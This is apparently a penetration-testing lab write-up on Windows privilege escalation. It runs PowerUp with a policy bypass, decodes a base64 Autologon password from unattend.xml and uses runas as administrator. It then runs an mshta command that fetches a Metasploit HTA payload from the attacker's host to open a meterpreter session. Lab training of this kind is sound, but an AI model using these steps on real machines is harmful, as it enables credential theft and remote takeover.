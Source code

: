 # LAB: Unattended Installation

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

## On the Windows target machine

#### Run PowerUp in the target machine to detect privesc vulns:

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
```

<mark style="color:purple;">NOTE:</mark> This has to be run in the "<mark style="color:red;">Privesc</mark>" directory inside "<mark style="color:red;">PowerSploit</mark>"

Cat the "unattend.xml" file and search for the password value in "<mark style="color:red;">Autologon</mark>"

Decode the password and login using:

You can decode the value in powershell using:

* <mark style="color:yellow;">"$password='VALUE'"</mark>
* <mark style="color:yellow;">"$password =\[System.Text.Encoding]::UTF8.GetString(\[System.Convert]::FromBase64String($password))"</mark>
* <mark style="color:yellow;">"echo $password"</mark>
* "<mark style="color:yellow;">runas.exe /user:administrator cmd</mark>" then enter the password

`runas.exe` is a Windows command-line utility that allows users to run specific programs or commands with different user credentials, typically with elevated privileges or as a different user

## Using Kali Attacker machine & Windows Target

Use msfconsole module "<mark style="color:red;">exploit/windows/misc/hta\_server</mark>"

<mark style="color:blue;">This module will host an HTML application that when opened will run a payload via Powershell.</mark>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Copy the generated payload and run it on the cmd in Windows target.

* "<mark style="color:yellow;">mshta.exe http://10.10.31.2:8080/Bn75U0NL8ONS.hta</mark>"

`mshta.exe` is a Microsoft utility used to execute **Microsoft HTML Applications (HTA)**. HTA files are HTML-based applications that can run as standalone executables with full access to the system, allowing interaction with Windows scripting technologies like VBScript or JScript.

We will then get a meterpreter session on the kali machine.










